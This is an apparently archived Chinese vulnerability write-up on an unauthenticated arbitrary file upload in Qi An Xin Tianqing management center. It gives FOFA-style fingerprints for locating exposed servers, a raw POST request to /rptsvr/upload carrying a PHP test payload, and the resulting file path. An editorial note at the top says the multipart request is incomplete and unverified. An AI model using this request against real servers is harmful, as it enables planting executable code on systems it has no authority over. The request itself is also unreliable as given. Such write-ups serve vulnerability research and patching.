

# 奇安信天擎 任意文件上传

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：奇安信天擎管理中心
- 本文讨论：rptsvr/upload上传
- 版本、权限与配置前提：≤6.7.0.4130声称，无Cookie
- 资料类型：rptsvr上传转载；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- multipart缺name/filename、空行/终止边界，无法导出TController1.php目标路径
- 与619同包仅长度/最终文件名不同，需解释各图示路径
- 未给官方修复版，公网能打不多是无统计推断
- 已落实的文本修订：HTTP 报文围栏改为 http；残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留

### 待核与来源

- 原图完整包、修复构建和路径映射待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/CkvAaxQThv_33e_CG9Md5w)

0x01 技术文章仅供参考学习，请勿使用本文中所提供的任何技术信息或代码工具进行非法测试和违法行为。若使用者利用本文中技术信息或代码工具对任何计算机系统造成的任何直接或者间接的后果及损失，均由使用者本人负责。本文所提供的技术信息或代码工具仅供于学习，一切不良后果与文章作者无关。使用者应该遵守法律法规，并尊重他人的合法权益。

漏洞适用于天擎管理中心 <=V6.7.0.4130 版本，现在外网能打的不多估计内网有些能打，厂商修复很快。

0x02 指纹信息

```
web.title=="360新天擎"
web.title=="360天擎终端安全管理系统"
或者fofa
"奇安信天擎"

```

0x03 漏洞复现

数据包

```http
POST /rptsvr/upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36
Connection: close
Content-Length: 412
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Content-Type: multipart/form-data;boundary=---------------------------55433477442814818502792421460
Upgrade-Insecure-Requests: 1
-----------------------------55433477442814818502792421460
Content-Disposition: form-data; 
Content-Type: text/x-python
<?php
phpinfo();
?>
-----------------------------55433477442814818502792421460
Content-Disposition: form-data; 
skylar_report
-----------------------------55433477442814818502792421460

```

上传后的路径是

```
url+/application/api/controllers/TController1.php

```



---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
